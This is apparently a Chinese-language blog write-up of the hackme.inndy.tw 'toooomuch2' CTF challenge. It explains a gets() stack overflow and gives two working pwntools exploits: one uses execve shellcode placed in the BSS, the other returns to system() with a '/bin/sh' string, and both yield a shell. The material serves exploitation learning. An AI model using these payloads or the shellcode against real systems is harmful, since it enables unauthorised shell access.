 ```yaml
---
title: hackme.inndy.tw toooomuch2 writeup
date: 2018-08-16 09:03:27
tags:
- CTF
- writeup
---
```


## 0x00 介绍
这一题很简单的栈溢出PWN题。作为入门选手，做的过程也有点小波折。  
题目地址[https://hackme.inndy.tw/](https://hackme.inndy.tw/)，有时需要FQ。
检查防护
```
[*] '/home/lin/wdoc/program-learn/ctf_learn/hackme.inndy.tw/pwn/tooomuch2/toooomuch'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
什么防护都没有。
拖到IDA里看下
<!--more-->
```
int toooomuch()
{
  int result; // eax@2
  char s; // [sp+0h] [bp-18h]@1

  printf("Give me your passcode: ");
  gets(&s);
  strcpy(passcode, &s);
  if ( check_passcode() )
    result = play_a_game();
  else
    result = puts("You are not allowed here!");
  return result;
}
```
这个是漏洞函数，可以看出漏洞输入点在gets(&s)函数调用。gets用来读入一个字符串，没有限制输入长度。s是位于bp-18h的位置，bp后面是之前bp的位置，通过看反汇编代码，可以看到有一个设置临时栈的动作。
```
push ebp
mov ebp, esp
```
栈如下：
![img](/images/wp1-1.png) 

当我们在输入时给s 018+8个a时，就能覆盖掉toooomuch函数的返回地址，此时会出现异常,core dump。
# 0x01 利用思路
没有防护+溢出。这里的利用方法可能有很多种，网上看到是将shellcode放到bss段，然后利用溢出，中转到bss段去执行shellcode。
```
from pwn import *

p = process('./toooomuch')
elf = ELF('./toooomuch')


shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

gets_addr = p32(elf.symbols['gets'])
bss_addr = p32(elf.bss())
payload = fit({0x18  + 0x4:[gets_addr, bss_addr, bss_addr]})
p.sendlineafter('your passcode: ', payload)
p.sendline(shellcode)
p.interactive()
```
执行流程是：
1. tooomuch返回到gets上，将gets的返回地址设置为bss_addr，因为没有限制NX，所以BSS段也是可执行的
2. 然后在gets执行时，将shellcode输入，此时shellcode就位于BSS段起始位置。
3. 之后gets返回，执行shellcode。
出题人的提示是,也是用shellcode。
```
nc hackme.inndy.tw 7702
Get a shell, please.
Tips: Buffer overflow, 0x8048560, shellcode
```

我自己的思路是利用代码中已经加载的system函数，调用它来获取shell。system需要一个输入/bin/sh字符串。通过gets时输入，整个利用exp如下
```
from pwn import *

p = process('./toooomuch')
elf = ELF('./toooomuch')


system = p32(elf.symbols['system'])
passcode = p32(elf.symbols['passcode'])
binsh = '/bin/sh &&'
payload = binsh + (0x18 + 4- len(binsh) ) * 'a' + system + passcode + passcode
p.sendlineafter('your passcode: ', payload)
p.interactive()
```
之所以在/bin/sh后加了&&，是为了截断输入。否则system会把后面的输入当成是/bin/sh的参数，当成了一个命令调用。整个流程比shellcode要简单
1. 拼接payload, /bin/sh && 加上一些填充字符'a', 后面是调用地址 + 返回地址 + 参数地址。这里利用了代码中将输入复制到了passcode变量，所以使用passcode作为输入参数。
2. 输入payload
3. 返回到system，传入参数是passcode。
4. get shell

## 0x02 总结
1. 一开按照自己的思路填充栈时，没有考虑到设置临时栈时push ebp的动作，返回地址没有正确覆盖，一直没有成功，后来通过gdb调试才意识到。
2. binsh的命令截断有很多姿势。/bin/sh;， 加分号也可以。
